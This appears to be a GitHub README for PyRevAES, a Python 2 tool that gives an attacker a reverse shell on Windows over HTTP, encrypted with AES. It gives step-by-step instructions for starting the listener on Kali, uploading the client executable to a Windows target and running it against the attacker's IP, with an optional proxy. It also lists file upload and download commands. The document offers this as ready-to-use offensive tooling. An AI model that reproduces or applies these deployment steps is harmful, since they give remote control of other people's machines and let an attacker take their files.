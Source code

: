 <h1 align="center">
	<img width="400" src="pyrevaes.png" alt="PyRevAES">
</h1>

# PyRevAES

A Windows Reverse Shell using HTTP methods with 256-bit AES encryption written in python2.

If I get some time, I will convert this to a python3 project.


## Install:
1. ```git clone https://github.com/simon-revit/PyRevAES.git```
2. ```pip2 install -r requirements.txt```
3. ```python2 server_shell_http.py```
4. choose port ```80``` - Other ports may work, but it works best with port ```80```

## Usage:
1. Run server_shell_http.py from kali (and choose port 80)
```
sudo python2 server_shell_http.py
```
2. Upload client_shell_http.exe to Windows target
3. Run the following command on the target for a reverse shell without proxy:
```
C:\client_shell_http.exe <kali_ip> 80
```
4. Run the following command for a reverse shell with proxy:
```
C:\client_shell_http.exe <kali_ip> <kali_port> <proxy_address> <Proxy_port>
```

## Extras:
```client_shell_http.py``` - If you want to create your own executable or run directly from python,  code is available.

```TCP_proxy_online.py``` - TCP proxy from https://stackoverflow.com/questions/32468270/tcp-proxy-using-python Purely the work of voorloop. You might need to modfy lines 16 and 94 to modify the forwarded reverseshell/port and the proxy port, respectively.

```get-pip.py``` To install pip for python2 (after deprecation). Reference: https://bootstrap.pypa.io/

NB: If changing the ```secret``` AES encryption key, ensure you change both the client and server scripts to match.

## Commands:
```upload [filename]```

```download [filename]```     => Need to rename file after download.

```winreg```                 => displays help message

## Issues:
If there are issues with pip2 installation (due to deprecation) refer to this https://bootstrap.pypa.io/ to get pip working again for python2. 

If there are issues with pycrypto, install the following:
```sudo apt install build-essential libssl-dev libffi-dev python-dev```

If still having issues, try running everything using sudo.


## Notes:
- Logo made with courtesy of https://www.freelogodesign.org/
